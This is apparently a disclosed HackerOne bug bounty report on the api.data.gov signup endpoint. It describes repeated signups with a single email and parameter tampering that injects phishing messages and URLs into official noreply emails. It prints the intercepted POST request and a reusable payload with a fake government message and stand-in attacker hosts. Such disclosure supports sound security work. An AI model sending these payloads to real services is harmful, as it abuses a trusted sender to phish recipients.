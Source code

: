 # Multiple Bugs in api.data.gov/signup endpoint leads to send custom messages to Anyone

## Report Details
- **Report ID**: 360171
- **URL**: https://hackerone.com/reports/360171
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-05-31T11:13:09.807Z
- **Disclosed**: 2018-11-13T19:14:16.937Z

## Reporter
- **Username**: pressihackerone
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_bbp

## Vulnerability Information
Hey there,

while signing for new api key, i have found two bugs that is unusual and make anyone to send crafted or customised email to someone.

Bug 1: - low 

1. Go to https://api.data.gov/signup/
2. Enter first and last name , then enter email id and get api key.

_Bug: You can use the same email id and signup endlessly._


Bug 2: - Medium/High

1. Go to https://api.data.gov/signup/
2. Enter first and last name , email and sigup
3. Now using Burp Suite Intercept the Proxy.The actual data in POST method looks like the following.


*POST /api-umbrella/v1/users.json?api_key=8Mndjk7k8ygsU4rM1lwBltMzet1FEAIuZeaqzEqV HTTP/1.1
Host: api.data.gov
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
*Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://api.data.gov/signup/
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 497
DNT: 1
Connection: close*

*user%5Bfirst_name%5D=tester&user%5Blast_name%5D=moving&user%5Bemail%5D=testermoving%40gmail.com&user%5Buse_description%5D=&user%5Bterms_and_conditions%5D=1&user%5Bregistration_source%5D=web&options%5Bexample_api_url%5D=https%3A%2F%2Fdeveloper.nrel.gov%2Fapi%2Falt-fuel-stations%2Fv1%2Fnearest.json%3Fapi_key%3D%7B%7Bapi_key%7D%7D%26location%3DDenver%2BCO&options%5Bcontact_url%5D=https%3A%2F%2Fapi.data.gov%2Fcontact%2F&options%5Bsite_name%5D=&options%5Bsend_welcome_email%5D=true&options%5Bemail_from_name%5D=&options%5Bemail_from_address%5D=&options%5Bverify_email%5D=true*


4.Now change following parameters as per your choice and send misleading information and phising website from noreply@api.data.gov 

**user%5Bfirst_name%5D = Any sentence you want**
**options%5Bexample_api_url%5D = your phishing site**
**options%5Bcontact_url%5D = your contact URL**

Send the Request to the server and you will receive a crafted message and URL that leads anyone to visit unwanted website. 

**Example:**

Here is my payload that is used to send unintended website URLs and messages which not involved in YOUR DESING. *(you can use the same payload and receive crafted messages and url)*

user%5Bfirst_name%5D=This is from some governemt, Visit the follwing URL to register.&user%5Blast_name%5D=secondname&user%5Bemail%5D=testermoving%40gmail.com&user%5Buse_description%5D=&user%5Bterms_and_conditions%5D=1&user%5Bregistration_source%5D=web&options%5Bexample_api_url%5D=spoofed.websiteO&options%5Bcontact_url%5D=attackercontact.com&options%5Bsite_name%5D=&options%5Bsend_welcome_email%5D=true&options%5Bemail_from_name%5D=&options%5Bemail_from_address%5D=&options%5Bverify_email%5D=true

{F303584}

## Impact

Bug 1 impact:
Acquiring multiple API keys with same email id which is unusual.

Bug 2 impact:
Send Customised message.
Main problem here is, email is received from noreply@api.data.gov which is identified as authentic E-Mail.
Change the _**example URL**_ and make anyone to visit malicious website.
Change _**contact us**_ website.

## Attachments
- Screen_Shot_2018-05-31_at_4.19.51_PM.png
